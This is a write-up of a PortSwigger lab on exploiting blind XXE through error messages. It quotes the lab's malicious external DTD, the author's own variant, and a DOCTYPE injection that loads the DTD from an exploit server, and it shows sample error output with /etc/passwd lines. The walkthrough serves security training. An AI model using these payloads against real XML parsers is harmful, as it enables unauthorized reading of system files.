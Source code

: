 ## Exploiting blind XXE to retrieve data via error messages

**Title:** Exploiting blind XXE to retrieve data via error messages. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

**Description:** This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Preface

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.

- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.

- Uses the `eval` entity, which causes the dynamic declaration of the error entity to be performed.

- Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:

``` Java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

After going to the exploit server and we stored the following malicious DTD file on our server:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

When imported, this page will read the contents of `/etc/passwd` into the file entity, and then try to use that entity in a file path. We clickd "View exploit" to take a note of the URL for our malicious DTD file. We need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. We visited a product page and clicked "Check stock", and intercepted the resulting POST request in Burp Suite. After inserting the following external entity definition in between the XML declaration and the stockCheck element: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>` we should see an error message containing the contents of the `/etc/passwd` file.

![poc_store_payload.png](../images/store_payload.png)

![poc_xml_request.png](../images/xml_request.png)

![poc_final_response.png](../images/final_response.png)
